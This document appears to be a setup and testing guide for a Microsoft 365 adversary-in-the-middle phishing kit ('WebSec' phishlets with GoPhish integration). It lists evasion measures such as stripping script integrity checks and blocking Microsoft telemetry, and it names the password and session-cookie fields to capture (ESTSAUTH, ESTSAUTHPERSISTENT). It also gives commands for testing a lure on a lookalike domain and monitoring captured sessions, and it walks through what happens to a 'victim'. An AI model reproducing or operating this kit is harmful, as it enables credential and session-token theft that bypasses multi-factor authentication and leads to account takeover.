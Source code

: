 **Security Evasion:**
- Strips integrity attributes from JavaScript
- Blocks Microsoft telemetry calls
- Auto-submits credentials for better UX

**Credential Capture:**
- Username: `login` field
- Password: `passwd` field
- Session tokens: `ESTSAUTH`, `ESTSAUTHPERSISTENT`, `OTAuth`

### 4. Testing O365-1 Phishlet

```bash
# Test the phishlet flow
# 1. Visit the lure URL
curl -k "https://login.azbpartnars.com/common/oauth2/v2.0/authorize?client_id=00000003-0000-0000-c000-000000000000&response_type=code&redirect_uri=https://portal.office.com&scope=openid"

# 2. Check if phishlet is active
phishlets o365-1

# 3. Monitor sessions for credential capture
sessions

# 4. Test GoPhish integration
config gophish test
```

### 5. Expected Behavior

When a victim visits your lure:
1. **Initial Redirect:** `login.azbpartnars.com` → Real Microsoft login
2. **Credential Entry:** Victim enters username/password
3. **Auto-Submit:** JavaScript automatically submits form
4. **Token Capture:** WebSec captures authentication tokens
5. **Redirect:** Victim redirected to `www.azbpartnars.com/landing-page`
6. **Session Tracking:** GoPhish tracks campaign completion

## 📊 Monitoring and Maintenance

### 1. Log Monitoring

```bash
# View real-time logs
sudo journalctl -u websec -f

# View recent logs
sudo journalctl -u websec --since "1 hour ago"

# Check for errors
sudo journalctl -u websec -p err
```

